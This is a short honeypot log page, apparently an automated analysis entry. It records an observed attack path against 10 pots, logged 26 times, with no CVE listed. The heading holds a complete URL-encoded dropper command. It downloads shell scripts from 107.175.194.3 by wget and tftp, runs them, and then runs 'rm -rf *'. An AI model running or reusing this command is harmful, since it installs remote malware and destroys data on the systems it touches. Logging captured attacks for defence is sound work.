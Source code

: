 # Analysis for /shellcd%20/tmp%20%7C%7C%20cd%20/run%20%7C%7C%20cd%20/;%20wget%20http://107.175.194.3/daqwbins.sh;%20chmod%20777%20daqwbins.sh;%20sh%20daqwbins.sh;%20tftp%20107.175.194.3%20-c%20get%20daqwtftp1.sh;%20chmod%20777%20daqwtftp1.sh;%20sh%20daqwtftp1.sh;%20tftp%20-r%20daqwtftp2.sh%20-g%20107.175.194.3;%20chmod%20777%20daqwtftp2.sh;%20sh%20daqwtftp2.sh;%20rm%20-rf%20daqwbins.sh%20daqwtftp1.sh%20daqwtftp2.sh;%20rm%20-rf%20*
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 10 | 26 | | 220110-033754 |

## CVE: 